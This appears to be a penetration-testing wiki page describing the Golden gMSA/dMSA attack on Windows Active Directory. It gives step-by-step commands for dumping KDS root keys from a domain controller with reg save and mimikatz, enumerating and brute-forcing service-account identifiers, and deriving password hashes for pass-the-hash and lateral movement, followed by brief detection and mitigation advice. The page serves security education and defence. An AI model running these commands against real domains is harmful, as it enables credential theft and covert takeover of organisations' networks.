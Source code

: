 # Golden gMSA/dMSA Attack (Offline Derivation of Managed Service Account Passwords)

{{#include ../../banners/hacktricks-training.md}}

## Overview

Windows Managed Service Accounts (MSA) are special principals designed to run services without the need to manually manage their passwords.
There are two major flavours:

1. **gMSA** – group Managed Service Account – can be used on multiple hosts that are authorised in its `msDS-GroupMSAMembership` attribute.
2. **dMSA** – delegated Managed Service Account – the (preview) successor to gMSA, relying on the same cryptography but allowing more granular delegation scenarios.

For both variants the **password is not stored** on each Domain Controller (DC) like a regular NT-hash.  Instead every DC can **derive** the current password on-the-fly from:

* The forest-wide **KDS Root Key** (`KRBTGT\KDS`)  – randomly generated GUID-named secret, replicated to every DC under the `CN=Master Root Keys,CN=Group Key Distribution Service, CN=Services, CN=Configuration, …` container.
* The target account **SID**.
* A per-account **ManagedPasswordID** (GUID) found in the `msDS-ManagedPasswordId` attribute.

The derivation is: `AES256_HMAC( KDSRootKey , SID || ManagedPasswordID )` → 240 byte blob finally **base64-encoded** and stored in the `msDS-ManagedPassword` attribute.
No Kerberos traffic or domain interaction is required during normal password usage – a member host derives the password locally as long as it knows the three inputs.

## Golden gMSA / Golden dMSA Attack

If an attacker can obtain all three inputs **offline** they can compute **valid current and future passwords** for **any gMSA/dMSA in the forest** without touching the DC again, bypassing:

* Kerberos pre-authentication / ticket request logs
* LDAP read auditing
* Password change intervals (they can pre-compute)

This is analogous to a *Golden Ticket* for service accounts.

### Prerequisites

1. **Forest-level compromise** of **one DC** (or Enterprise Admin).  `SYSTEM` access is enough.
2. Ability to enumerate service accounts (LDAP read / RID brute-force).
3. .NET ≥ 4.7.2 x64 workstation to run [`GoldenDMSA`](https://github.com/Semperis/GoldenDMSA) or equivalent code.

### Phase 1 – Extract the KDS Root Key

Dump from any DC (Volume Shadow Copy / raw SAM+SECURITY hives or remote secrets):

```cmd
reg save HKLM\SECURITY security.hive
reg save HKLM\SYSTEM  system.hive

# With mimikatz on the DC / offline
mimikatz # lsadump::secrets
mimikatz # lsadump::trust /patch   # shows KDS root keys too
```
The base64 string labelled `RootKey` (GUID name) is required in later steps.

### Phase 2 – Enumerate gMSA/dMSA objects

Retrieve at least `sAMAccountName`, `objectSid` and `msDS-ManagedPasswordId`:

```powershell
# Authenticated or anonymous depending on ACLs
Get-ADServiceAccount -Filter * -Properties msDS-ManagedPasswordId | \
  Select sAMAccountName,objectSid,msDS-ManagedPasswordId
```

[`GoldenDMSA`](https://github.com/Semperis/GoldenDMSA) implements helper modes:

```powershell
# LDAP enumeration (kerberos / simple bind)
GoldendMSA.exe info -d example.local -m ldap

# RID brute force if anonymous binds are blocked
GoldendMSA.exe info -d example.local -m brute -r 5000 -u jdoe -p P@ssw0rd
```

### Phase 3 – Guess / Discover the ManagedPasswordID (when missing)

Some deployments *strip* `msDS-ManagedPasswordId` from ACL-protected reads.
Because the GUID is 128-bit, naïve bruteforce is infeasible, but:

1. The first **32 bits = Unix epoch time** of the account creation (minutes resolution).
2. Followed by 96 random bits.

Therefore a **narrow wordlist per account** (± few hours) is realistic.

```powershell
GoldendMSA.exe wordlist -s <SID> -d example.local -f example.local -k <KDSKeyGUID>
```
The tool computes candidate passwords and compares their base64 blob against the real `msDS-ManagedPassword` attribute – the match reveals the correct GUID.

### Phase 4 – Offline Password Computation & Conversion

Once the ManagedPasswordID is known, the valid password is one command away:

```powershell
# derive base64 password
GoldendMSA.exe compute -s <SID> -k <KDSRootKey> -d example.local -m <ManagedPasswordID>

# convert to NTLM / AES keys for pass-the-hash / pass-the-ticket
GoldendMSA.exe convert -d example.local -u svc_web$ -p <Base64Pwd>
```
The resulting hashes can be injected with **mimikatz** (`sekurlsa::pth`) or **Rubeus** for Kerberos abuse, enabling stealth **lateral movement** and **persistence**.

## Detection & Mitigation

* Restrict **DC backup and registry hive read** capabilities to Tier-0 administrators.
* Monitor **Directory Services Restore Mode (DSRM)** or **Volume Shadow Copy** creation on DCs.
* Audit reads / changes to `CN=Master Root Keys,…` and `userAccountControl` flags of service accounts.
* Detect unusual **base64 password writes** or sudden service password reuse across hosts.
* Consider converting high-privilege gMSAs to **classic service accounts** with regular random rotations where Tier-0 isolation is not possible.

## Tooling

* [`Semperis/GoldenDMSA`](https://github.com/Semperis/GoldenDMSA) – reference implementation used in this page.
* [`mimikatz`](https://github.com/gentilkiwi/mimikatz) – `lsadump::secrets`, `sekurlsa::pth`, `kerberos::ptt`.
* [`Rubeus`](https://github.com/GhostPack/Rubeus) – pass-the-ticket using derived AES keys.

## References

- [Golden dMSA – authentication bypass for delegated Managed Service Accounts](https://www.semperis.com/blog/golden-dmsa-what-is-dmsa-authentication-bypass/)
- [Semperis/GoldenDMSA GitHub repository](https://github.com/Semperis/GoldenDMSA)
- [Improsec – Golden gMSA trust attack](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-5-golden-gmsa-trust-attack-from-child-to-parent)

{{#include ../../banners/hacktricks-training.md}}
